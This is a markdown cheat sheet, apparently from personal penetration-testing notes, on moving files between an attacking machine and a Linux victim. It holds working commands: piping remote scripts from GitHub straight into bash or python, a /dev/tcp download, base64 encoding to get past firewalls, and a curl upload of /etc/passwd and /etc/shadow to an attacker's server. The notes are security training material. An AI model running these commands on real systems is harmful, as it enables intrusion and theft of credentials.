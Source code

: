```yaml
---
title: Transferring files techniques - Linux
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - linux
  - exploitation
  - file transfer technique
  - backdoors
---
```


# Transferring files techniques  - Linux

## Replicating client-server 

### Setting up a server in the attacking machine 

#### Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
service apache2 start
```


#### Simple python server

```shell-session
# Creating a Web Server with Python3
cd /tmp
python3 -m http.server 8000

# Creating a Web Server with Python2.7
python2.7 -m SimpleHTTPServer
```


#### Creating a Web Server with PHP

```shell-session
php -S 0.0.0.0:8000
```


#### Creating a Web Server with Ruby

```shell-session
ruby -run -ehttpd . -p8000
```


### Download files from victim's machine

#### wget

```shell-session
wget http://<SERVERIP>:<SERVERPORT>/<file>
```

#### curl

```shell-session
curl http://http://<SERVERIP>:<SERVERPORT>/<file> -o <OutputNameForFile>
```


### Fileless downloads using Linux

Because of the way Linux works and how pipes operate, most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

#### Fileless Download with cURL

```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```


#### Fileless Download with wget

```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## Bash downloads

On the server side (attacking machine), setup a server by using one of the methodologies applied above.

On the client side (victim's machine):

```shell-session
# Connecting to the Target Webserver (attacking machine serving the file)
exec 3<>/dev/tcp/$ip/80

# Requesting the file to the server 
echo -e "GET /file.sh HTTP/1.1\n\n">&3

# Printing the Response
cat <&3
```


## SSH downloads and uploads: SCP

SSH implementation comes with an SCP utility for remote file transfer that, by default, uses the SSH protocol. 

Two requirements:

 - we have ssh user credentials on the remote host
 - ssh is open on port 22

On the server's side (attacker's machine):

```shell-session
# Enable the service
sudo systemctl enable ssh

# Start the server
sudo systemctl start ssh

# Check if port is listening
netstat -lnpt
```

From the attacker machine too:

```
# Download file foobar.txt saved in the victim's machin. Command is run from attacker machine connecting to the remote host (victim's machine)
scp username@$IPvictim:foobar.txt /some/local/directory

# Upload file foo.txt saved in attacker machine into the victim's. Command is run from attacker machine connecting to the remote host (victim's machine)
scp foo.txt username@$IPvictim:/some/remote/directory
```



## Base64

To avoid firewall protections we can:

**1.** Base64 encode the file:

```shell-session
base64 file.php -w 0

# Alternative
cat file |base64 -w 0;echo

```

**2.** Copy the base64 string, go to the remote host and decode it and pipe to a file:

```shell-session
echo -n "Looooooong-string-encoded-in-base64" | base64 -d > file.php
# -n: do not output the trailing newline
```

## Web upload

We can use [uploadserver](uploadserver).


```bash
# Install
python3 -m pip install --user uploadserver

# As we will use https, we will create a self-signed certificate. This file should be hosted in a different location from the web server folder
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Start the web server
python3 -m uploadserver 443 --server-certificate /location/different/folder/server.pem

# Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.
curl -X POST https://$attackerIP/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
# We used the option --insecure because we used a self-signed certificate that we trust.
```


 ## Backdoors

See [reverse shells](reverse-shells.md), [bind shells](bind-shells.md), and [web shells](web-shells.md).

